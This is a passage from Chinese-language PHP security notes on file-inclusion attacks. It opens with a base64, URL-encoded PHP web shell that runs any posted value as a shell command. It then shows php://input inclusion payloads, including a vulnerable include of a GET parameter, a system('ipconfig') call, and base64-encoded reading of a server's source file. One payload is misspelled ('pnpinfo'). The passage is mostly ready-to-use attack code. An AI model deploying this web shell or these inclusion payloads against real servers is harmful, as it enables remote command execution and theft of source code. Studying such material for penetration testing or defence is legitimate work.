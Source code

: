 ```
PGZvcm0gYWN0aW9uPSI8Pz0kX1NFUlZFUlsnUkVRVUVTVF9VUkknXT8%2BIiBtZXRob2Q9IlBPU1QiPjxpbnB1dCB0eXBlPSJ0ZXh0IiBuYW1lPSJ4IiB2YWx1ZT0iPD89aHRtbGVudGl0aWVzKCRfUE9TVFsneCddKT82BIj48aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iY21kIj48L2Zvcm0%2BPHByZT48PyAKZWNobyBgeyRfUE9TVFsneCddfWA7ID8%2BPC9wcmU%2BPD8gZGllKCk7ID8%2BCgo%3D 
```

#### 5.1.3. 特性 Allows Reading

影响函数

```
include
include_once
require
require_once
file_get_contents
fopen 
```

### 5.2. php://input

可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)

#### 5.2.1. 样例

```
<?php
　　@include($_GET["file"]);
?>
http://localhost/test/index.php?file=php://input

# echo test
post: <?php echo 111;?>

# phpinfo
post: <?php pnpinfo();?>

# system
post: <?php system('ipconfig');?> 
```

*   读文件

```
<?php echo file_get_contents("solution.php");?> 
```

在利用文件包含进行代码执行的时候，我们通过file\_get\_contents获取到的文件内容，如果是一个.php文件，会被当作include的输入参数，也就意味着会被再执行一次，则我们无法看到原始代码了. 解决这个问题的方法就是使用`base64_encode`进行编码

```
<?php echo base64_encode(file_get_contents("solution.php"));?> 
```

### 5.3. php://filter
